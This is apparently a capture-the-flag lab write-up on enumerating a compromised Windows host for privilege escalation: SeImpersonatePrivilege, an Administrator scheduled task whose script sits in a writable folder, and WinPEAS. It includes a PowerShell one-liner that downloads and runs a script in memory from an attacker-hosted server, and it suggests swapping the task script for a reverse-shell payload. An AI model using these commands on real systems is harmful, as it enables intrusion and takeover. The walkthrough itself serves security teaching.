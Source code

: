 # 15 - Window System Enumeration


## 1. Initial User Context Enumeration

The first step is to understand the permissions and context of our compromised user, `john`.

### a) Checking Privileges (`whoami /priv`)
*   **Command:** `whoami /priv`
*   **Key Finding:** The user `john` has the `SeImpersonatePrivilege` enabled.
*   **Security Relevance:** This is a **highly significant privilege**. While intended for services to impersonate clients, it can be abused by a number of well-known exploits (e.g., "Juicy Potato," "PrintSpoofer") to escalate privileges to `NT AUTHORITY\SYSTEM`. This is a primary avenue for privilege escalation.

### b) Checking Group Memberships (`whoami /groups`)
*   **Command:** `whoami /groups`
*   **Key Finding:** `john` is a member of standard groups like `Users` and `Remote Desktop Users`, but also `Event Log Readers`.
*   **Security Relevance:** Membership in `Remote Desktop Users` confirms why our RDP login was successful. Membership in `Event Log Readers` could allow us to read security logs that might contain sensitive information.

---

## 2. System and Task Enumeration

Next, we investigate the system's configuration and scheduled tasks.

### a) System Information
*   Commands like `systeminfo` and `wmic qfe` fail due to `john` being a standard user. This confirms we do not have administrative privileges yet.

### b) Scheduled Tasks (`schtasks`)
*   **Command:** `schtasks /query /fo LIST /v`
*   **Critical Finding:** A custom scheduled task named **`CorpBackupAgent`** is discovered.
    *   **Task to Run:** It executes a PowerShell script: `C:\ProgramData\CorpBackup\Scripts\backupprep.ps1`.
    *   **Run As User:** The task is configured to run with the privileges of the **`Administrator`** user.
*   **Security Relevance:** This is a major potential vulnerability. If we can modify the `backupprep.ps1` script, our malicious code will be executed with `Administrator` privileges the next time the task runs.

---

## 3. Automated Enumeration with `WinPEAS`

To speed up the enumeration process, we can use an automated script like **WinPEAS**.

1.  **Transfer the Script:** Download `winPEAS.ps1` to our attacker machine, host it with a simple Python web server, and then use PowerShell on the target to download and execute it in memory, saving the output to a file.
    ```powershell
    # On attacker machine
    wget <winpeas_url>
    python3 -m http.server 8080

    # On target machine
    powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacker_ip>:8080/winPEAS.ps1')" > winpeas.txt
    ```
2.  **Analyze the Output:** The WinPEAS output confirms and expands upon our manual findings.

### Key Findings from WinPEAS
*   **Writable `C:\ProgramData`:** WinPEAS confirms that the `BUILTIN\Users` group has **write permissions** on the `C:\ProgramData` directory.
    *   **Security Relevance:** This is a significant misconfiguration. Since the `CorpBackupAgent` scheduled task runs a script from within this directory (`C:\ProgramData\CorpBackup\Scripts\backupprep.ps1`), and we (as a member of `Users`) can write to this directory, we likely have the ability to modify or replace the script.
*   **System Information:** Provides a detailed summary of the OS (Windows Server 2019), installed hotfixes, network configuration, and confirms the `HTBLAB` workgroup.
*   **Listening Ports:** Confirms the services we found with `nmap` are listening on `0.0.0.0`, meaning they are accessible from all network interfaces.

---

## 4. Summary of Actionable Findings

Our internal enumeration has revealed two very strong potential paths for privilege escalation.

| Finding | Description | Security Impact |
| :--- | :--- | :--- |
| **`SeImpersonatePrivilege`** | The user `john` has the "Impersonate a client after authentication" privilege enabled. | **Critical.** This privilege is abusable by well-known exploits to escalate to `NT AUTHORITY\SYSTEM`. |
| **Writable Scheduled Task Script** | A scheduled task, `CorpBackupAgent`, runs as `Administrator` and executes a script (`backupprep.ps1`) located in a subdirectory of `C:\ProgramData`. The `C:\ProgramData` directory is writable by all users. | **Critical.** This is a direct privilege escalation vector. We can likely modify or replace `backupprep.ps1` with a malicious payload (e.g., a reverse shell). When the task runs (every 2 minutes, according to the schedule), our payload will execute as `Administrator`. |

**Conclusion:** We have moved from initial access to identifying two clear, high-confidence methods to gain full administrative control over the Windows target. The next step is to exploit one of these findings.

